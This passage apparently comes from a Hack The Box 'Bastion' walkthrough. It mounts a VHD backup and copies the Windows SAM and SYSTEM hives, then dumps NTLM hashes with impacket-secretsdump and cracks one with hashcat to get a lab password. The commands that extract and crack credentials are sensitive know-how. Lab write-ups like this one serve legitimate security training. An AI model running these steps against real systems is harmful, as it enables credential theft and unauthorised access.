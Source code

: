 We can use `7z l <VHD_file>` to list files or just mount them using `guestmount`: 

```bash
$ apt install libguestfs-tools -y
$ mkdir /mnt/vhd/
$ guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/ -v
...
```

#### Extracting password hashes

Once the vhd mounted, we could go tho `Windows/System32/config/` directory where we can retrieve two interesting files:

1. the `SAM` database which contains all users password hashes
2. hashes are encrypted with a key which can be found in `SYSTEM`

> **Note**: if we were in a Domain controller, we would grab `NTDS.dit` also to extract the Active Directory Database

```console
root@kali:/mnt/vhd/Windows/System32/config# cp SAM ~/htb/machines/Windows/Bastion/
root@kali:/mnt/vhd/Windows/System32/config# cp SYSTEM ~/htb/machines/Windows/Bastion/
```

Now we can extract the hashes using tools like [`pwdump`](https://github.com/Neohapsis/creddump7.git) or `impacket-secretsdump`:

```bash
$ impacket-secretsdump -sam SAM -system SYSTEM local
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
[*] Cleaning up...
```

> Hashes that begin with "`31d6`" are hashes of empty string which means that the account is either disabled or it has no password. This is why **Administrator** and **Guest** password hashes are the same. 

At this point, we can try to crack them using `hashcat` or perfom a **Pass The Hash**.

## Foothold

### Cracking NTLM hash using `hashcat`

```
$ cat > hashes.txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
^C
$ hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
...
26112010952d963c8dc4217daec986d9:bureaulampje 
...
```
